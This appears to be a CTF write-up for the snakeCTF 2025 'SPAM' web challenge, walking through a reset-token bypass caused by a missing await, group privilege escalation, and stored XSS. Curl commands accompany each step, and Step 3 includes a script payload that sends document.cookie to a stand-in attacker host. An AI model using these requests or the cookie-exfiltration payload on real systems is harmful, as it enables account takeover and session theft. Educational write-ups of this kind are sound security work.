 # SPAM [_snakeCTF 2025 Quals_]

**Category**: Web

## Description

The Italian government's latest digital authentication masterpiece.
Built by the lowest bidder with the highest confidence. What could go wrong?

### Hints

- Sometimes promises aren't kept, especially with governments.
- Groups can be very... flexible in their membership requirements.
- Internal systems trust each other a bit too much.
- The test service renders things quite literally.

## Solution

The challenge requires chaining four distinct vulnerabilities to achieve XSS in the admin bot's browser context and exfiltrate the flag from cookies.

### Step 1: Insecure Password Reset

The password reset functionality contains a critical async/await bug. In `/api/auth/forgot.js`, the database query validation is missing an `await` statement:

```javascript
const tokenData = db.getResetToken(token); // Missing await
if (!tokenData) {
    // This check always passes because tokenData is a Promise (truthy)
}
```

Since `tokenData` is an unresolved Promise object, it is always truthy, causing the validation to pass regardless of token validity. When the code attempts to access `tokenData.userId`, it receives `undefined`, which causes `getUserFromId` to default to user ID 0 (the admin).

A password reset can be performed with any arbitrary token:

```bash
curl -X PATCH http://challenge.snakectf.org/api/auth/forgot \
  -H "Content-Type: application/json" \
  -d '{"token": "fake_token", "newPassword": "Pwned12345!"}'
```

### Step 2: Privilege Escalation via Group Assignment

After gaining admin access, the `assignGroup` action in `/api/actions` can be exploited. The endpoint lacks proper authorization checks preventing admins from assigning themselves to privileged groups.

The admin account can be elevated to the "System" group:

```bash
curl -X POST http://challenge.snakectf.org/api/actions \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <admin_token>" \
  -d '{"action": "assignGroup", "params": {"userId": 0, "groupId": 0}}'
```

### Step 3: Stored XSS via Internal API

With "System" group privileges, access is granted to the `/api/internal/sync` internal API endpoint and the test service (platform 0). The `/api/internal/sync` endpoint allows profile updates without proper input sanitization:

```bash
curl -X POST http://challenge.snakectf.org/api/internal/sync \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer <system_token>" \
  -d '{"firstName": "<script>fetch(\"https://evil.com/?c=\" + document.cookie)</script>"}'
```

### Step 4: XSS Execution in Test Service

The "test" service (platform 0) renders user profiles directly into HTML without sanitization. When the admin bot navigates to the test service dashboard, it executes the injected JavaScript payload.

The malicious script runs in the bot's browser context, extracting cookies containing the flag and sending them to the attacker's controlled server.